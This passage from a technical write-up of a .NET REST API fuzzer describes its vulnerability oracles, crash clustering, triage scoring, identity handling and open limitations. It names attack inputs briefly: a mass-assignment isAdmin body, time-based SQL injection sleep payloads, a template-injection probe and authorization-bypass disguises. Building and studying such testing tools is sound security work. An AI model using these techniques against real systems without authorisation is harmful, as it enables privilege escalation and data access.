**The bug:** a `PUT /users/me` endpoint that takes the incoming JSON body and binds it directly onto a database/domain model (a common convenience pattern in many web frameworks) will happily accept *any* field present in that model that the server-side code didn't explicitly block from client input — `isAdmin`, `role`, `accountBalance`, `verified` — even fields the client interface never exposes a way to set. A regular user sending `{"name": "Alice", "isAdmin": true}` becomes an administrator, purely because nothing on the server side said "don't let a client set this particular field."

**What the oracle does:** after any successful write request, the same request is re-sent with a set of plausible privilege-escalation fields injected — `isAdmin: true`, `role: "SuperAdmin"`, `permissions: ["*"]`, `accessLevel: 99999`, and similar — chosen specifically to be values a legitimate default state would essentially never naturally produce, so that seeing one echoed back is strong evidence of real acceptance rather than coincidence. If the response reflects the injected field with its injected value, the server accepted an over-posted, privilege-relevant field it shouldn't have.

**A stated limitation:** confirmation currently relies on the response *echoing* the field back. A server that silently accepts and applies the privileged field but never reflects it in the same response (only visible on a later, separate read) is currently invisible to this check without an additional follow-up read-back — a real, open item (see §17).

### Positive injection detection

**The bug, and why crash-only detection misses it:** classic injection classes — SQL injection, server-side template injection — don't reliably produce an error message or a crash at all in a well-behaved application; a WAF-style "does the response contain an error string" check misses them structurally. A vulnerable app under a time-based SQLi payload doesn't error — it just takes noticeably longer to respond, because the database is busy executing an injected `sleep(5)`. A vulnerable app under an SSTI payload doesn't error either — it evaluates an expression it should have treated as inert data, and the *evaluated result* shows up in the response.

**What the oracle does, concretely:** rather than only scanning for error text, it runs *positive* checks that look for the actual effect a successful injection would have. For time-based SQL injection, it sends a `sleep`/`benchmark`/`pg_sleep`/`waitfor`-style payload and measures whether the response actually took meaningfully longer *and* at least 3x the endpoint's own running baseline latency (both conditions together, specifically to avoid mistaking ordinary network jitter or a genuinely slow endpoint for injection). For server-side template injection, it sends a rare arithmetic expression such as `{{1337*1337}}` and checks specifically for the *evaluated* result (`1787569`) appearing in the response — not merely the original payload text being reflected back unmodified, which would just mean the input was echoed, not executed. Reflected XSS is checked the same way: does the exact unescaped payload come back in the response body, unmodified, where it would execute in a browser.

### Differential / parser-confusion auth bypass

**The bug, from nothing:** an endpoint can correctly enforce authorization for the *obvious*, literal form of a request and still fail to enforce it for a slightly different-looking form of the exact same logical operation. A login check written with only `GET` in mind might never trigger at all for a `HEAD` request to the identical route (which is, semantically, "GET minus the response body" — the same operation, structurally). Middleware that only inspects requests explicitly declared as `Content-Type: application/json` can sometimes be bypassed entirely by sending the identical raw bytes labeled `text/plain`, while the framework underneath still happily parses them as JSON anyway. Routing that's case-insensitive by default (ASP.NET's default behavior) can sit *behind* a custom authorization check that isn't. None of these are "missing authentication" in the simple, obvious sense — the check exists, and works correctly for the ordinary case. It just doesn't cover every equivalent way of asking the framework the same question.

**Why a plain auth-bypass test misses this specifically:** a straightforward "does this work with zero credentials at all" test on the literal, undisguised request already gets correctly rejected here. The bug only appears once the *disguised* version of the identical request is tried — so a tool that only ever tests the obvious form will report the endpoint as properly protected and move on, missing precisely the bug that actually exists.

**What the oracle does:** it only attempts this once an endpoint has already independently earned "strong" evidence of enforcing authentication — a plain, literal, credential-free request to it was already confirmed to get rejected with a 401/403 (the same `authRequiredEndpoints` evidence tracking BOLA's no-credential probe uses, at its higher confidence level). On exactly those endpoints — where "just remove the credentials" is already a confirmed dead end — it retries with no credentials again, but disguised four independent ways: **verb confusion** (a `GET` origin request reissued as `HEAD` only — deliberately not as other verbs, since those would change the request's actual semantics rather than merely its disguise); **content-type confusion** (the identical body bytes, with `Content-Type` swapped from `application/json` to `text/plain;charset=UTF-8`); **route-case confusion** (the first letter of each path segment flipped); and **parameter-location confusion** (the same path-embedded resource id duplicated as a same-named query parameter, testing whether a differently-sourced parameter of the same name routes through a different model-binding/authorization code path). A successful (2xx, real-body) result on any of these four, specifically *because* a literal credential-free replay of the same endpoint was already confirmed to fail, is strong, precise evidence that the *disguise technique itself* — not general carelessness about authentication — is what defeated a real, working check. That's a more actionable, more specific finding to hand a developer than "authentication seems to be missing here."

### Response-schema conformance

Since the grammar compiler (§10) already parses every operation's declared OpenAPI response schema, checking live response bodies against it is a nearly-free addition on top of infrastructure that already exists for an unrelated reason. On every ordinary (non-probe) successful response, the engine (`void/go/schema_oracle.go`) flattens the actual JSON body and compares it against the declared schema for that status code, producing two distinct finding classes: an **undeclared field** — a key present in the live response that the spec never documented at all (the priority case, since it means a client can read or interact with something nobody wrote down as intentional — flagged at higher severity if the field name looks sensitive, like `password`/`token`/`ssn`), and **type drift** — a declared field whose live JSON type doesn't match what the spec says (a low-confidence signal, deliberately, since this class of mismatch is common and often benign). This oracle stays silent by design on any endpoint whose grammar declares no response schema at all — there's no ground truth to compare against, and inventing findings from a weak signal has already cost this project real credibility once (a previously-presented-as-genuine SSRF false positive, on an endpoint that turned out to merely be echoing its own input back, is the concrete incident that motivated stripping known payload strings before matching anywhere in this pipeline).

### Why finding accurate classification matters as much as finding the bug

Every one of the above oracles writes its result with an honest **classification tier**, not a blanket "vulnerability found":

| Tier | Meaning |
|---|---|
| `likely_vuln_high` / `likely_vuln` | A concrete exploitation signal actually fired — BOLA, mass assignment, time-based SQLi, evaluated SSTI, reflected XSS, differential auth bypass, or a schema-conformance violation |
| `confirmed_unhandled_exception` | A reproducible 500 with a real backend stack trace — a robustness/DoS-adjacent bug, explicitly *not* claimed as a proven vulnerability |
| `needs_review` | A 500 that couldn't be confidently attributed to anything specific — including malformed-input parse exceptions (a bad GUID, bad base64) deliberately down-ranked here so they stop masquerading as genuine application bugs |
| `target_misconfiguration` | A dependency-injection/service-resolution failure — an artifact of how the fuzzing image itself was built, not a bug in the target's actual logic — excluded from the vulnerability count entirely |
| `noise` | Filtered below reporting threshold |

The reasoning behind maintaining this distinction this carefully, rather than just reporting "N vulnerabilities found": a tool that reports every 500 as "a vulnerability" trains the humans reading its output to stop trusting anything it says, within about one report. Over-claiming is not a neutral error in a security tool — it's actively worse than under-claiming, because it burns the one resource (a researcher's willingness to act on the output) that the entire tool exists to earn.

## 14. Crash triage, clustering, and reporting: turning thousands of crashes into a handful of bugs

A productive coverage-guided fuzzing session against a real API routinely produces *thousands* of individually-distinct crashing requests for what turns out to be a mere handful of actual underlying bugs — the same null-check failure, reached via a hundred different mutated payloads and a dozen different routes, looks like a hundred different "unique" crashes if you only deduplicate by exact payload. One real run against Bitwarden produced 933 nominally "unique" crashes that, once properly clustered, turned out to be roughly 5 actual distinct bugs.

UpsideFuzz uses a deliberate **two-level** identity scheme to solve this honestly rather than either under- or over-collapsing:
- A fine-grained **signature** (method + path + status + exception type + a fingerprint of the response), computed and deduplicated by `crash.go`, is used for forensic-level deduplication of near-identical repro variants — useful when you specifically want to see every distinct way a bug was triggered.
- A coarser **cluster key** (`cluster.go`), built from the *normalized* backend exception message plus the first application-level stack frame (framework frames are deliberately skipped, since they're shared by unrelated bugs and would otherwise merge things that shouldn't merge) — or, when no stack trace is available at all (production mode, see §8's exception-attribution caveat), a fallback of `(method, status code, normalized route template)` — groups crashes by *actual root cause*, which is the number a human actually wants: "how many distinct bugs do I have," not "how many distinct payloads triggered a bug."



*One real run produced 933 nominally "unique" crash signatures that collapsed to roughly 5 actual bugs once clustered by root cause — the number in the final report is the second one, not the first.*

Every crash also gets an honest, hand-tuned (explicitly not CVSS-equivalent, and labeled as such wherever displayed) **triage score** (`triage.go`) from 0.0–10.0, built from concrete signals: a base score for any 500, a bonus if the response body contains an actual developer-facing stack trace, a further bonus if the body reveals a specific backend failure category (a SQL error, a deadlock, a null-reference exception by name), a bonus scaled by how sensitive the endpoint's path looks (`/admin`, `/auth`), a bonus if the crash was reached via a multi-step stateful sequence (§12) rather than a single request (since that generally indicates a deeper, more specific business-logic failure than a shallow single-request crash) — and explicit *penalties* for crashes against purely synthetic, non-existent paths, or generic content-type-mismatch noise that would otherwise pollute the ranking.

Findings can also be exported as **SARIF 2.1.0** (`sarif.go`, `-sarif-file`, opt-in) — the standard static-analysis interchange format that GitHub code scanning, DefectDojo, and most security dashboards natively ingest — so results integrate into existing tooling without a custom parser. The one genuinely interesting design decision here: SARIF wants every finding to belong to a named "rule," but a fuzzer, unlike a static analyzer, has no fixed catalog of checks to draw rule names from. The chosen approach is a deliberate *allowlist* of specific, strong oracle-reason tags (`sqli_time_based`, `bola_identical_cross_identity_response`, and similar) as rule ids, rather than a *denylist* of known-generic ones — verified as the right call against a real run, where a generic `server_error` tag (present on essentially every 500 regardless of actual cause) would otherwise have accounted for 1,601 out of 1,602 naive rule-id assignments in one real Bitwarden run, collapsing every genuinely distinct exception type into one indistinguishable SARIF bucket.

Beyond the raw JSON/SARIF report, the pipeline (`poc.go`, `report.go`) also produces runnable curl-based proof-of-concept scripts and Mermaid-diagram exploit timelines for confirmed findings, and an optional embedded live web dashboard (`webui.go`, `-web-ui`/`-web-ui-port`) — turning "here's a JSONL line" into something a human can actually read, replay, and hand to a developer.

## 15. Authentication and identity

Everything in §13's oracle set depends on the engine actually having distinct, real, logged-in identities to compare against each other — BOLA and broken-auth are, structurally, cross-identity comparisons. `identity.go`/`auth.go` load a JSON file of configured identities (JWT bearer tokens, API keys, cookies, or custom headers), schedule requests across them (weighted, round-robin, or random), support a deliberately-unauthenticated `guest` identity for the no-credential probes §13 describes, and can fire deliberate parallel identical-request bursts (`-race-burst`) to probe for time-of-check-to-time-of-use (TOCTOU) race conditions. Anti-forgery (CSRF) tokens — a common friction point for cookie/MVC-style targets like SimplCommerce — are harvested automatically out of HTML `<input>` fields and rotated as needed, rather than requiring a human to configure them per endpoint.

One specific piece of engineering worth calling out: `void/go/jwt_expiry.go` reads the unsigned `exp` claim off any JWT-shaped identity token at load time (deliberately never verifying the token's signature — that's not this project's job) and warns at startup about any identity whose token is already expired, or will expire before the configured run duration finishes, plus a one-time mid-run event the moment a still-valid-at-startup token actually crosses its expiry. This doesn't fix the underlying friction — the tool still can't log in on your behalf, so a long run against a short-lived-token target still needs a human to keep tokens fresh (see §17) — but it turns what used to be a silent, confusing wave of unexplained 401s partway through a multi-hour run into an explicit, timestamped signal pointing at the actual cause.

## 16. Interesting engineering decisions that generalize past this project

A handful of choices here are worth internalizing even if you never touch .NET or REST fuzzing specifically:

**Instrument early, and exclude exactly the pre-init window — nothing more, nothing less.** The single highest-value line in the entire instrumentor is the exclusion of `Program+<>c` and lambda-cache closures (§7). The generalizable rule is: *anything that can execute before your instrumentation/telemetry runtime finishes initializing must itself be excluded from instrumentation* — it's easy to state, easy to violate by accident, and violating it produces a startup crash that reads like a bug in the instrumentation *library* rather than what it actually is: an ordering bug in when your own hook runs relative to static initializers.

**Make your runtime hook resolve its own dependencies from outside the target entirely.** Dropping the coverage assembly and its dependencies into a directory that is deliberately *not* on the target application's normal assembly-probing path, and wiring an explicit resolver to load them from there instead, is what makes "zero-edit instrumentation" actually true rather than aspirational. The target's own directory is genuinely never modified; the hook is entirely self-sufficient. This pattern generalizes cleanly to any agent that needs to attach instrumentation, telemetry, or monitoring to a process it does not own and cannot modify.

**Choose a locally-bounded approximation over a correct-but-invasive fix, and say so explicitly.** Faced with "true per-thread coverage attribution, which requires forking SharpFuzz's own probe" versus "an approximation that's wrong only in a small, bounded, honestly-documented way," §8 chose the approximation. The right call for a project like this: the approximation eliminates the *pathological* failure mode (double-counting under concurrency) while leaving behind a small residual (which of several simultaneous requests gets attribution credit) that doesn't compound and doesn't corrupt the aggregate signal. A fork of a well-tested upstream instrumentation library was not worth it for that residual.

**Let the fuzzer's own traffic earn the precondition for a check, rather than assuming it.** The `authRequiredEndpoints` evidence-tracking behind both BOLA's no-credential probe and the differential auth-bypass oracle (§13) is the specific design idea that makes those checks usable at all rather than a false-positive generator. The oracle never asks "is this endpoint supposed to be public" as an assumption — it accumulates observed evidence, from its own traffic, that the endpoint has actually rejected an unauthenticated caller before treating a later success as meaningful. Letting evidence accumulate from real behavior, rather than assuming a policy up front, is what keeps signal-to-noise high in an adversarial, unpredictable target.

**Track and publish your own blind spots.** The Roslyn analyzer's `unmodeled_validation` list (§9) and this project's own habit of labeling features "partial" directly in its roadmap (see `ARCHITECTURE_REVIEW.md`) are the same underlying instinct, applied respectively to static analysis and to project management. A tool — or a report — that tells you specifically where it cannot see is more trustworthy than one that implicitly claims to see everything, and it's a cheap thing to build in from the start compared to retrofitting it later.

## 17. Current limitations, stated plainly

A research tool that hides its own limitations is not a research tool — it's marketing. These are open, as of this writing, and each one is tracked in more detail in [`ARCHITECTURE_REVIEW.md`](ARCHITECTURE_REVIEW.md), which is the project's living, no-marketing engineering audit:

- **No out-of-band interaction server (OAST).** Blind SSRF, blind XXE, RCE, and blind SQL injection only ever produce a signal if they happen to manifest *in-band* (a measurable timing delay, a reflected value). A payload that silently makes the target's server reach out to an attacker-controlled DNS/HTTP endpoint, with no in-band evidence at all, is currently entirely unconfirmable. This is the single largest remaining gap in "deep, realistic bug discovery" as a whole, and the cheapest large jump still available in the project's core value proposition.
- **BOLA detection is body-comparison, not object-ownership-aware.** As stated in §13: true cross-tenant object access, where each identity legitimately gets back a *different but still valid-looking* body, is under-detected without a seeded "ownership matrix" — known-B-owned resource ids, deliberately replayed under identity A.
- **No true per-input coverage novelty, and no general comparison-instrumentation beyond the specific IL shapes CmpLog covers.** Coverage is bucketed edge-hit feedback measured against one shared virgin map (§8), not per-thread-isolated trace buffers; there's no branch-distance/gradient signal the way EvoMaster's white-box mode provides.
- **Docker-only.** The entire coverage channel assumes a `/coverage_shm` tmpfs volume and a container. A researcher fuzzing a locally-running API outside Docker, an Azure Functions app, or a Windows-only target cannot currently use grey-box mode at all.
- **Reduced production-mode exception fidelity in the default zero-edit mode**, as described in §7 — an outermost `IStartupFilter` middleware cannot always see an exception a target's own global exception handler swallows first; `--inject-mode source` exists specifically as the fallback for when this fidelity matters more than the zero-edit guarantee.
- **No structural, schema-driven body mutation.** Constraints (§9/§10) inform *value* generation — the boundary values a field's mutations draw from — but mutation still operates on the request *after* it's already been flattened to bytes, not on a live typed model that understands `oneOf`/discriminator polymorphism. Deserialization- and polymorphism-class bugs are consequently mutated blind rather than structure-aware.
- **No persistent, resumable corpus.** As noted in §11, the seed corpus lives entirely in memory and is discarded when the process exits — a researcher re-running against the same target starts cold every time, with no warm restart.
- **No deterministic record/replay.** Runs are not yet bit-for-bit reproducible — the RNG is unseeded by default — which is a real, stated reproducibility gap for a tool whose entire value proposition is trustworthy findings.
- **Auth acquisition is still manual.** As §15 describes, JWT expiry is now visible (a startup warning, a mid-run event) but not auto-refreshed — the tool cannot perform a login flow (OAuth2, form login) on its own behalf, so a long unattended run against a short-lived-token target still needs a human to keep credentials current.
- **REST only.** gRPC, GraphQL, and SignalR/WebSocket — all common surfaces in real .NET applications — are entirely outside the current grammar model.

## 18. Future work, roughly in priority order

1. **An OAST server.** The single gate standing between "confirmed" and "unconfirmable" for the entire blind-vulnerability class (blind SSRF/XXE/RCE/blind-SQLi).
2. **Ownership-matrix BOLA.** Seed known-owned resource ids per identity and deliberately cross-replay them, converting the current body-comparison heuristic into a ground-truth object-access test.
3. **A non-Docker host mode**, using a named cross-platform shared-memory segment behind the same startup-hook mechanism already built — the last major universality blocker between "works on curated, containerized targets" and "works on arbitrary .NET."
4. **A typed request-body model reaching mutation.** Moving mutation above the current template-flattening step is what would unlock genuinely structure-aware, schema-respecting-and-deliberately-violating mutation — the shared prerequisite for both deeper structural-mutation work and more precise per-field targeting.
5. **Deterministic record/replay plus a global seed.** The cheapest remaining credibility win for a tool whose whole point is trustworthy findings — a finding you cannot reproduce bit-for-bit is a finding a security researcher will not fully trust.
6. **A persistent, resumable corpus.** Warm restarts against the same target instead of starting cold every run — independent of, and lower-effort than, everything else on this list.
7. **Credential-based auto-login + OAuth2/OIDC per identity**, with automatic refresh, removing the manual-token-file friction §15's expiry warnings only made visible rather than fixed.
8. **Coverage-directed sequence fanout**, prioritizing consumer requests whose edges are still unreached rather than a static breadth-first priority order — an incremental step toward the fuller resource-lifecycle state-graph search tools like DeepREST and EvoMaster implement.
9. **Non-REST protocols** (gRPC, GraphQL, SignalR) for reach into surfaces this pipeline currently cannot see at all.

The complete, actively-maintained version of this prioritized backlog — including effort estimates and a per-subsystem maturity assessment — lives in [`ARCHITECTURE_REVIEW.md`](ARCHITECTURE_REVIEW.md), which is kept current rather than treated as a point-in-time snapshot like this article.

---

## Conclusion

None of the individual ideas in UpsideFuzz are, on their own, new. Its scheduler is AFL++'s ideas ported from binary-input mutation to HTTP-request selection. Its coverage buckets are AFL's own scheme, unmodified. Its producer-consumer request chaining is the same core idea RESTler already had. Its IL rewriting is SharpFuzz, used as-is. What's actually new here is the **assembly**: real grey-box coverage feedback obtained from arbitrary .NET web APIs, delivered through instrumentation that requires zero changes to the target and survives assemblies that only load lazily at runtime, feeding a fuzzing engine whose bug-detection logic is built to produce concrete exploitation evidence — a cross-identity data leak, a reflected privileged field, a measured timing delay — instead of just a stack trace, and which is honest, in its code and in what it reports, about specifically where it cannot yet see.

For a reader who fuzzes for a living, the concrete, reusable ideas are Part II §§7–8's startup-hook-plus-hosting-startup pattern for attaching real coverage instrumentation to a .NET process you don't own or control; the first-observer-wins attribution scheme that makes per-request coverage usable at all under real concurrency; the evidence-gated access-control oracles in §13 that keep false-positive rates low enough for a human to actually act on the output; and the general discipline, described in §16, of explicitly tracking and publishing your own blind spots rather than letting a tool's confidence silently outrun what it can actually verify. Whether or not .NET or REST APIs specifically are your problem, those are the parts worth taking with you.

This project is open source, and the roadmap in [`ARCHITECTURE_REVIEW.md`](ARCHITECTURE_REVIEW.md) is real, current, and public — not a changelog of everything ever fixed, but an honest snapshot of where things stand right now. The instrumentation layer and the oracle layer are the two places I'd point a fellow researcher first, and also the two places I would most like to see argued with, torn apart, and improved.
